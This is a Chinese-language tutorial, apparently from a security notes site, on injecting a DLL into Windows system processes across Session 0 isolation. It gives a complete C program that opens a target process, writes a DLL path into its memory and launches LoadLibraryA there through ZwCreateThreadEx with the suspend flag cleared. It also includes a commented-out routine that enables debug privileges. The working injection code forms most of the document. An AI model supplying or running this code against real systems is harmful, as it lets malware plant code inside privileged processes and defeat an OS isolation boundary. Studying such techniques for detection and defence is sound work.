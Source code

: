 # Bypass Session 0 Injection

## 简介

在使用传统的进程注入技术的过程中，可以向普通用户用户进程注入shellcode或dll，那么如果我们想更进一步注入到系统进程内，通常会失败，这是由于session 0隔离的缘故，接下来本文会介绍如何突破session 0隔离进行对系统进程的注入。

## ZwCreateThreadEx函数

通过调用CreateRemoteThread创建远程线程在NT内核6.0以前是没有什么问题，但在6.0以后引入了session隔离机制，在创建一个线程时先挂起，然后判断是否运行在所在会话层再决定是否恢复运行。

ZwCreateThreadEx函数比CreateRemoteThread函数更接近内核，CreateRemoteThread最终也是调用ZwCreateThreadEx函数来创建线程的，通过前人的研究发现，通过对CreateRemoteThread逆向研究发现，在内部调用ZwCreateThreadEx会把第七个参数创建标识设置为1，这样会使创建的线程挂起，这也是注入失败的原因。

所以如果想要创建的线程成功执行我们需要将第七个参数指定为0，这样我们就能在创建线程后让他执行。

ZwCreateThreadEx函数原型在不同位数的系统中有细微差别。

![](../.gitbook/assets/image%20%2819%29.png)

```text
#ifdef _WIN64
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		ULONG CreateThreadFlags,
		SIZE_T ZeroBits,
		SIZE_T StackSize,
		SIZE_T MaximumStackSize,
		LPVOID pUnkown);
#else
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		BOOL CreateSuspended,
		DWORD dwStackSize,
		DWORD dw1,
		DWORD dw2,
		LPVOID pUnkown);
#endif
```

## 代码实现

该注入技术与经典WriteProcessMemory，CreateRemoteThread注入技术非常相似，只是把创建进程的函数从CreateRemoteThread换成了ZwCreateThreadEx。

```text
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

typedef DWORD(WINAPI* typedef_LoadLibraryA)(char* path);
/*
BOOL EnbalePrivileges(HANDLE hProcess, char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;

	bRet = OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);

	bRet = LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);

	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	bRet = AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);


	return TRUE;
}*/

int main(int argc, char* argv[]) {
	//EnbalePrivileges(GetCurrentProcess(), SE_DEBUG_NAME);

	char DllPath[] = "C:\\Users\\Black Sheep\\source\\repos\\sesion0\\x64\\Debug\\TestDll.dll";

	HANDLE hRemoteThread;

	HANDLE hNtModule = GetModuleHandleA("ntdll.dll");

	HANDLE hKeModule = GetModuleHandleA("Kernel32.dll");

	typedef_ZwCreateThreadEx ZwCreateThreadEx = GetProcAddress(hNtModule, "ZwCreateThreadEx");

	typedef_LoadLibraryA myLoadLibraryA = GetProcAddress(hKeModule, "LoadLibraryA");

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1516);

	LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, sizeof(DllPath)+1, MEM_COMMIT, PAGE_READWRITE);

	WriteProcessMemory(hProcess, lpBaseAddress, DllPath, sizeof(DllPath), 0);

	ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)myLoadLibraryA, lpBaseAddress, 0, 0, 0, 0, NULL);

	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
	FreeLibrary(hKeModule);
	FreeLibrary(hNtModule);
	return 0;

}
```

![](../.gitbook/assets/image%20%283%29.png)

* github:[https://github.com/idiotc4t/sesion0](https://github.com/idiotc4t/sesion0)

## LINKS

《windows黑客编程》

{% embed url="https://kb.firedaemon.com/support/solutions/articles/4000086228-what-is-session-0-isolation-what-do-i-need-to-know-about-it-" %}



